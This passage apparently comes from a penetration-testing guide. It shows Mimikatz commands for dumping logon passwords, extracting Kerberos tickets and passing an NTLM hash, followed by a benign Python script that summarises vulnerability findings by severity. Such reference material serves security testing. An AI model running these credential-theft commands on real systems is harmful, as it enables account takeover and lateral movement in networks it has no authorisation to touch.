 #### Mimikatz
```bash
# Extract credentials
mimikatz.exe "sekurlsa::logonpasswords" exit

# Extract tickets
mimikatz.exe "sekurlsa::tickets" exit

# Pass-the-hash
mimikatz.exe "sekurlsa::pth /user:admin /domain:example.com /ntlm:hash" exit
```

---

## 📊 Reporting & Documentation {#reporting-documentation}

### Report Generation Tools

#### Custom Reporting Scripts
```python
#!/usr/bin/env python3
"""
Custom vulnerability report generator
"""

import json
import csv
import pdfkit
from datetime import datetime

class VulnerabilityReporter:
    def __init__(self, findings_file):
        self.findings = self.load_findings(findings_file)
        self.report_data = self.generate_report_data()
    
    def load_findings(self, file_path):
        """Load vulnerability findings from file"""
        with open(file_path, 'r') as f:
            return json.load(f)
    
    def generate_report_data(self):
        """Generate report data structure"""
        return {
            'title': 'Vulnerability Assessment Report',
            'date': datetime.now().strftime('%Y-%m-%d'),
            'findings': self.findings,
            'summary': self.generate_summary()
        }
    
    def generate_summary(self):
        """Generate executive summary"""
        critical = len([f for f in self.findings if f['severity'] == 'Critical'])
        high = len([f for f in self.findings if f['severity'] == 'High'])
        medium = len([f for f in self.findings if f['severity'] == 'Medium'])
        low = len([f for f in self.findings if f['severity'] == 'Low'])
        
        return {
            'total_findings': len(self.findings),
            'critical': critical,
            'high': high,
            'medium': medium,
            'low': low
        }
```